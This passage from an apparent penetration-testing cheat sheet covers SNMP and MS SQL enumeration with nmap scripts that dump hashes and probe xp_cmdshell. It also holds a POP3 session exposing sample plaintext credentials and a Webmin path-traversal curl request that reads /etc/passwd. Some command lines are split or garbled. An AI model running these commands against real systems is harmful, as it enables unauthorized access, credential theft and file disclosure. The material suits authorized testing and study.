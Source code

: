          list
         
         +OK 2 1807
         1 786
         2 1021
      
         retr 1
         
         +OK Message follows
         From: jamesbrown@motown.com
         Dear Billy Dean,

         Here is your login for remote desktop ... try not to forget it this time!
         username: billydean
         password: PA$$W0RD!Z


-   SNMP Enumeration -Simple Network Management Protocol

    -   Fix SNMP output values so they are human readable  
        `apt-get install snmp-mibs-downloader download-mibs  `
        `echo "" > /etc/snmp/snmp.conf`

    -   SNMP Enumeration Commands

        -   `snmpcheck -t $ip -c public`

        -   `snmpwalk -c public -v1 $ip 1|`

        -   `grep hrSWRunName|cut -d\* \* -f`

        -   `snmpenum -t $ip`

        -   `onesixtyone -c names -i hosts`

    -   SNMPv3 Enumeration  
        `nmap -sV -p 161 --script=snmp-info $ip/24`

    -   Automate the username enumeration process for SNMPv3:  
        `apt-get install snmp snmp-mibs-downloader  `
        `wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb`

    -   SNMP Default Credentials  
        /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt


-   MS SQL Server Enumeration

    -   Nmap Information Gathering
        
        `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`
        
-   Webmin and miniserv/0.01 Enumeration - Port 10000

      Test for LFI & file disclosure vulnerability by grabbing /etc/passwd
        
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`
        